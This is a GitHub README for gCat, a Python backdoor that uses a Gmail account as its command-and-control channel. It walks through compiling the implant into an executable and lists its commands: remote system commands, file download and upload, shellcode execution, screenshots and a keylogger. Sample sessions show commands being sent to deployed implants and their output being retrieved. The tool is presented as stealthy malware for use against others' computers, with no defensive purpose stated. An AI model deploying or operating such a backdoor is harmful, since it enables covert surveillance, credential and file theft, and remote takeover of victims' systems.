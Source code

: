 <p align="center">
 <img src="https://github.com/s1l3nt78/gcat/blob/master/.vs/gcat.png" alt="" />
 <br />
 <img src="https://img.shields.io/badge/-Python2-3776AB?style=for-the-badge&logo=python&logoColor=white"><br />
				<img align="center" src="https://img.shields.io/github/issues/s1l3nt78/gcat" />
				<img align="center" src="https://img.shields.io/github/forks/s1l3nt78/gcat" />
				<img align="center" src="https://img.shields.io/github/stars/s1l3nt78/gcat" />
				<br />
				<img align="center" src="https://img.shields.io/badge/Version-1-red" />
				<img align="center" src="https://img.shields.io/badge/Coming-Version 2-orange" />
				<br />
				<img align="center" src="https://www.codefactor.io/repository/github/s1l3nt78/gcat/badge" alt="CodeFactor">
				<img align="center" src="https://img.shields.io/badge/Author-byt3bl33d3r-blue" /><br />
 <img align="center" src="https://img.shields.io/badge/Redevelopment by-s1l3nt78-blueviolet" />
</p>

# gCat
A stealthy Python based backdoor that uses Gmail as a command and control server

#  Original Author: <a href="https://github.com/byt3bl33d3r"><strong>byt3bl33d3r</strong></a>

    Redeveloping a new Version
        *s1l3nt78
    
 -----------------------------------------------------------------------------------------------------
 
## Setup 

For this to work you need:
- A Gmail account (**Use a dedicated account! Do not use your personal one!**)
- Turn on "Allow less secure apps" under the security settings of the account
- You may also have to enable IMAP in the account settings

--------------------------------------------------------------------------------------------------

# Coming Soon

	Version: 2 
	    - Additional Features
	    
	Version: 3
	    - Python3 rewrite
	    
PreReqs
--------
- <a href="https://www.python.org/ftp/python/2.7.13/python-2.7.13.msi">Python 2 (32-bit for universal system compatibility)</a>
- <a href="https://sourceforge.net/projects/pywin32/files/pywin32/Build%20217/pywin32-217.win32-py2.7.exe/download">PyWin32</a>
- <a href="https://files.pythonhosted.org/packages/52/e5/0ce68034f3441bda11538162796dac5a8e5873e8af5d23aaea65e81c7e51/pyinstaller-2.0.zip">Pyinstaller (<strong>MUST BE VERSION 2</strong>)</a>
- <a href="https://github.com/upx/upx/releases/download/v3.96/upx-3.96-win32.zip">UPX (optional)</a>

      Once you have downloaded the pyinstaller zip file from the link above, unzip it
      and move "implant.py" to the pyinstaller folder from the zip. 
      Ensure python2 is registered in your path then from the pyinstaller folder run:
        
      >  python pyinstaller.py --onefile implant.py

-----------------------------------------------------------------------------------------------------

This repo contains two files:
- ```gcat.py``` a script that's used to enumerate and issue commands to available clients
- ```implant.py``` the actual backdoor to deploy

In both files, edit the ```gmail_user``` and ```gmail_pwd``` variables with the username and password of the account you previously setup.

**Note: It's recommended you compile implant.py using a 32bit Python installation**

--------------------------------------------------------------------------------------------------------

# Usage

```
                                             dP   
                                             88   
                .d8888b. .d8888b. .d8888b. d8888P 
                88'  `88 88'  `"" 88'  `88   88   
                88.  .88 88.  ... 88.  .88   88   
                `8888P88 `88888P' `88888P8   dP   
                     .88                          
                 d8888P  
                     

                   .__....._             _.....__,
                     .": o :':         ;': o :".
                     `. `-' .'.       .'. `-' .'   
                       `---'             `---'  

             _...----...      ...   ...      ...----..._
          .-'__..-''----    `.  `"`  .'    ----'''-..__`-.
         '.-'   _.--'''       `-._.-'       ''''--._   `-.`
         '  .-"'                  :                  `"-.  `
           '   `.              _.'"'._              .'   `
                 `.       ,.-'"       "'-.,       .'
                   `.                           .'
              jgs    `-._                   _.-'
                         `"'--...___...--'"`

                     ...IM IN YURR COMPUTERZ...

                        WATCHIN YURR SCREENZ

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands:
  Commands to execute on an implant

  -cmd CMD              Execute a system command
  -download PATH        Download a file from a clients system
  -upload SRC DST       Upload a file to the clients system
  -exec-shellcode FILE  Execute supplied shellcode on a client
  -screenshot           Take a screenshot
  -lock-screen          Lock the clients screen
  -force-checkin        Force a check in
  -start-keylogger      Start keylogger
  -stop-keylogger       Stop keylogger

Meow!

```

- Once you've deployed the backdoor on a couple of systems, you can check available clients using the list command:
```
#~ python gcat.py -list
f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86
90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86
```
The output is a UUID string that uniquely identifies the system and the OS the implant is running on


- Let's issue a command to an implant:
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'
[*] Command sent successfully with jobid: SH3C4gv
```
Here we are telling ```90b2cd83-cb36-52de-84ee-99db6ff41a11``` to execute ```ipconfig /all```, the script then outputs the ```jobid``` that we can use to retrieve the output of that command

- Lets get the results!
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid SH3C4gv     
DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
JOBID: SH3C4gv
FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py'
CMD: 'ipconfig /all'


Windows IP Configuration

        Host Name . . . . . . . . . . . . : unknown-2d44b52
        Primary Dns Suffix  . . . . . . . : 
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . : No

-- SNIP --
```

- That's the gist of it! But you can do much more as you can see from the usage of the script! ;)

-----------------------------------------------------------------------------------------------

# To Do

- Multi-platform support
- ~~Command to upload files~~
- Transport crypto & obfuscation
